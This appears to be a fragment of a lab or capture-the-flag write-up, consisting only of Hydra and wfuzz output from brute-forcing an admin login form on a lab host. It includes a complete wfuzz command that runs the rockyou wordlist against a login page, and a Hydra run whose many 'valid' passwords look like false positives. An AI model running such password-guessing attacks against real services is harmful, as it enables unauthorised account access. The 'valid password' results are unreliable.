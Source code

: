```
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
[443][http-post-form] host: 10.10.10.43   login: admin   password: goldfish
[443][http-post-form] host: 10.10.10.43   login: admin   password: maribel
[443][http-post-form] host: 10.10.10.43   login: admin   password: walker
[443][http-post-form] host: 10.10.10.43   login: admin   password: windows
[443][http-post-form] host: 10.10.10.43   login: admin   password: moises
[443][http-post-form] host: 10.10.10.43   login: admin   password: 0000000
[443][http-post-form] host: 10.10.10.43   login: admin   password: atlanta
[443][http-post-form] host: 10.10.10.43   login: admin   password: mahalkoh
[443][http-post-form] host: 10.10.10.43   login: admin   password: juventus
[443][http-post-form] host: 10.10.10.43   login: admin   password: tommy
[443][http-post-form] host: 10.10.10.43   login: admin   password: esteban
[443][http-post-form] host: 10.10.10.43   login: admin   password: chicken1
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-09-24 04:25:31

```
admin:password123

```
# wfuzz -z file,/usr/share/wordlists/rockyou.txt -d "password=FUZZ&remember=yes&login=Log+In&proc_login=true" -b PHPSESSID=s1soh390fah01sfvojpgovrc15  https://10.10.10.43/db/index.php 

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: https://10.10.10.43/db/index.php
Total requests: 14344392

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000025:  C=200    483 L	    1112 W	  13949 Ch	  "tigger"
000027:  C=200    483 L	    1112 W	  13949 Ch	  "chocolate"
000026:  C=200    483 L	    1112 W	  13949 Ch	  "sunshine"
000029:  C=200    483 L	    1112 W	  13949 Ch	  "soccer"
000001:  C=200    483 L	    1112 W	  13949 Ch	  "123456"
000028:  C=200    483 L	    1112 W	  13949 Ch	  "password1"
000002:  C=200    483 L	    1112 W	  13949 Ch	  "12345"
000003:  C=200    483 L	    1112 W	  13949 Ch	  "123456789"
000031:  C=200    483 L	    1112 W	  13949 Ch	  "friends"
000004:  C=200    483 L	    1112 W	  13948 Ch	  "password"
000030:  C=200    483 L	    1112 W	  13949 Ch	  "anthony"
000006:  C=200    483 L	    1112 W	  13949 Ch	  "princess"
000005:  C=200    483 L	    1112 W	  13949 Ch	  "iloveyou"
000007:  C=200    483 L	    1112 W	  13949 Ch	  "1234567"
```
